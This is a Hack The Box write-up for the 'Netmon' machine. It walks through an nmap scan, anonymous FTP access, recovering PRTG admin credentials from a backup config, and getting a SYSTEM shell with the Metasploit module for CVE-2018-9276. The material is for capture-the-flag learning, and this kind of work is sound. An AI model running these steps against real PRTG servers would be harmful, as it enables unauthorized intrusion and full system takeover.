 # Netmon      

![Netmon](./Screenshots/netmonlogo.png)

## Solution

### Scan with Nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/netmonnmap.png)
![nmap](./Screenshots/netmonnmap2.png)

Here are the descriptions of the open ports shown in the screenshots:

### **21/tcp (FTP)**
The **FTP** service is running on **Microsoft ftpd**. ****Anonymous FTP login is allowed****, anyone can connect without credentials. The directory listing shows several important folders, such as **inetpub**, **PerfLogs**, **Program Files**, and **Windows**.

### **80/tcp (HTTP)**
The web server running on this port is **Indy httpd 18.1.37.13946**, serving the **Paessler PRTG Network Monitor**. This application is commonly used for network monitoring and may have vulnerabilities worth exploring. The server is displaying a "Welcome" page, and additional HTTP methods like **GET**, **POST**, and **OPTIONS** are supported.

### **135/tcp (MSRPC)**
Microsoft Windows RPC service is open, facilitating remote procedure calls on the system.

### **139/tcp (NetBIOS-SSN)**
NetBIOS Session Service is running, used for file and printer sharing over a Windows network, often in conjunction with SMB.

### **445/tcp (Microsoft-DS)**
SMB service (Server Message Block) is running on **Microsoft Windows Server 2008 R2 - 2012**.

When I saw that http is open, I immediately pasted `http://{target ip}` into the browser.

![web](./Screenshots/netmonweb.png)

Login panel pops out.

I attempted to login with default credentials but it didn't work.

![web](./Screenshots/netmonweb2.png)

I even tried to brute-force the credentials with `BurpSuite`'s **Repeater** but it was also unsuccesfull.

### FTP

From the **Nmap** scan we know that **FTP** is open and **Anonymous login** is allowed.

Let's type:

```
ftp {target ip}
```

If it asks you about the *Name* type `Anonymous` and when it asks you about the *Password*, just press `Enter`.

![FTP](./Screenshots/netmonftp.png)

We are in.

### Get the user flag

The `user` flag is in the `/Users/Public/Desktop` path, let's just `get` it.

```
get user.txt
```

![flag](./Screenshots/netmonuserflag.png)

### System Search

Since we already have `user`'s flag, we want to find out how to get `root`'s flag.

We know that **SMB** is open but we don't have access to it. I also tried using a few exploits but they didn't work.

It is obvious that the next step is to explore **PRTG Network Monitor (NETMON)** but first, we need to have access to it.

Only reasonable way to look for credentials is to search **FTP** again.

I searched for interesting files but I found nothing. Then I decided to use `Google` and I came across this article:

```
https://www.paessler.com/manuals/prtg/data_storage
```

![search](./Screenshots/netmonsearch.png)

Let's go to the `/ProgramData/Paessler/PRTG Network Monitor` path then.

We can see several interesting files.

![search](./Screenshots/netmonsearch2.png)

I've searched all of the **PRTG** files and only **PRTG Configuration.old.bak** contains what we are looking for - credentials.

```
get PRTG\ Configuration.old.bak
```

![search](./Screenshots/netmonsearch3.png)

So credentials from file are:

```
prtgadmin:PrTg@dmin2018
```

I tried to log in using them but it didn't work.

![search](./Screenshots/netmonsearch4.png)

As this machine was released in **2019** and this is backup form **2018** I decided to paste `PrTg@dmin2019` and it worked.

```
prtgadmin:PrTg@dmin2019
```

![search](./Screenshots/netmonsearch5.png)

We can see `System Administrator`'s panel.

I pasted `PRTG 18.1.37.13946` into the `Google` and found out that it is vulnerable.

I found this:

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9276
```

**CVE-2018-9276**

and it says:

An issue was discovered in **PRTG Network Monitor before 18.2.39**. An attacker who has access to the **PRTG System Administrator web console with administrative privileges** can exploit an OS command injection vulnerability (both on the server and on devices) by sending malformed parameters in sensor or notification management scenarios.

Knowing that, we are going to use **Metasploit**. You can also use this exploit:

```
https://github.com/A1vinSmith/CVE-2018-9276?tab=readme-ov-file
```

and run it as author says in `README`.

### Metasploit

Type in order:

```
msfconsole
```

```
use exploit/windows/http/prtg_authenticated_rce
```

```
set lhost {your tun0 ip as we are connected to the HTB through VPN}
```

```
set rhost {target ip}
```

```
set admin_username prtgadmin
```

```
set admin_password PrTg@dmin2019
```

```
exploit
```

![metasploit](./Screenshots/netmonmetasploit.png)

We are in and we are `nt authority\system`.

![metasploit](./Screenshots/netmonmetasploit2.png)

`nt authority\system` is **the highest privilege level** account in **Windows** systems. This user has full control over the operating system, meaning we have access to all resources and can perform any administrative operations.

### Get the root flag

`Root` flag is in the `C:\Users\Administrator\Desktop>` path.

![flag](./Screenshots/netmonrootflag.png)

### Paste the flags

![pwned](./Screenshots/netmonpwned.png)
